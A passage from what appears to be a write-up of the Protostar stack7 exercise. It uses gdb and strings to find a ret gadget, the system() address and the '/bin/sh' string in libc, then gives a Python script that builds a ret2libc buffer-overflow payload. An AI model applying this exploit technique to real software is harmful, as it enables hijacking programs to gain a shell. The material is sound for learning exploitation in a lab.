 To locate the **ret** instruction and the address of **system()**, I use the following `gdb` commands:

``` shell
(gdb) disassemble getpath
...
0x08048544 <getpath+128>:       ret
End of assembler dump.
(gdb) p system
$4 = {<text variable, no debug info>} 0xb7ecffb0 <__libc_system>
```

Next, I need to determine the base address of **libc** and find the address of the ***"/bin/sh"*** string using the `strings` command:

``` shell
(gdb) info proc map
process 2454
cmdline = '/opt/protostar/bin/stack7'
cwd = '/home/user'
exe = '/opt/protostar/bin/stack7'
Mapped address spaces:

        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000          0        /opt/protostar/bin/stack7
         0x8049000  0x804a000     0x1000          0        /opt/protostar/bin/stack7
         0x804a000  0x806b000    0x21000          0           [heap]
        0xb7e96000 0xb7e97000     0x1000          0
        0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
        0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
        0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
        0xb7fd9000 0xb7fdc000     0x3000          0
        0xb7fde000 0xb7fe2000     0x4000          0
        0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
        0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
        0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
        0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
        0xbffeb000 0xc0000000    0x15000          0           [stack]
(gdb) quit
....
user@protostar:~$ strings -a -t x /lib/libc-2.11.2.so | grep "/bin/sh"
 11f3bf /bin/sh
```

So, the address of **"/bin/sh"**: 

$$
0xb7e97000 + 0x11f3bf
$$

Here is my script:

``` python
import struct

padding = "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT"
ret = struct.pack("I", 0x08048544)
system = struct.pack("I", 0xb7ecffb0)
return_after_system = "AAAA"
bin_sh = struct.pack("I", 0xb7e97000 + 0x11f3bf)

print padding + ret + system + return_after_system + bin_sh
```
